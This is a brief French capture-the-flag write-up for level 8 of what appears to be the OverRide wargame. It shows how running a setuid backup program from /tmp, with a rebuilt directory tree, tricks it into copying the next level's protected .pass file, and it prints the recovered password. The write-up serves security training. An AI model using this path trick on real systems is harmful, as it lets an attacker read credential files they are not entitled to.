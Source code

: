 # Level 08

Le programme ouvre deux fichiers à partir de notre premier argument.
à savoir `$1` et `./backups/$1`
Ensuite il copie le contenu du premier fichier dans le second.

Pour récupérer notre pass il suffit de duper l'appel à open en construisant la même structure de fichier que `/home/users`... dans `/tmp`.

Nous faisons un `cd /tmp` pour que le PWD soit égale à `/tmp`. Comme ça `./backups` donnera `/tmp/backups`.

```bash
cd /tmp 
mkdir -p /tmp/backups/home/users/level09
```

```bash
~/level08 /home/users/level09/.pass
```

```bash
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
